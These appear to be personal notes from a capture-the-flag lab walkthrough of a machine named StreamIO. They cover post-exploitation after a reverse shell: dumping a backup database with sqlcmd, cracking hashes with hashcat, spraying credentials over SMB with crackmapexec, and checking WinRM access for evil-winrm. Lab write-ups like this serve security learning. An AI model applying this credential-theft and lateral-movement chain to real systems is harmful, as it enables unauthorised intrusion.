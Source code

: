 Finally got reverse shell:

![[Pasted image 20250106205230.png]]
Remembering from recon that there is a `streamio_backup` database.

Also finally using the admin creds discovered within `index.php` with #sqlcmd to find even more valid creds. 

Dump the backup database with

`sqlcmd -U db_admin -p 'B1@hx31234567890' -Q 'USE STREAMIO_BACKUP; select username, password from users;'`

![[Pasted image 20250106205741.png]]
Copy this info and save on local box. Remove spaces for cracking in #hashcat 

`./hashcat.bin -m 0 --user hashes/streamio2.hashes /opt/wordlist/rockyou.txt`

![[Pasted image 20250106210150.png]]

`./hashcat.bin -m 0 --user hashes/streamio2.hashes --show

![[Pasted image 20250106210240.png]]

Doing the awk thing again. 

![[Pasted image 20250106210335.png]]
Creating users.txt

`cat user.hash.pw.txt | awk -F: '{print $1}' › users.txt`

Creating pw.txt 

`cat user.hash.pw.txt | awk -F: '{print $3}' > pw.txt`

![[Pasted image 20250106210520.png]]

Using #crackmapexec 

`cme smb 10.10.11.158 -u users.txt -p pw.txt --no-bruteforce`

![[Pasted image 20250107204642.png]]

Found one successful login:

`streamI0.htb\nikk37:get_dem_girls2@yahoo.com`

![[Pasted image 20250107204914.png]]

Then use these credentials with cme to see if this user has #winrm access.

He does. 

![[Pasted image 20250107205046.png]]

Use #evilwinrm to login. 
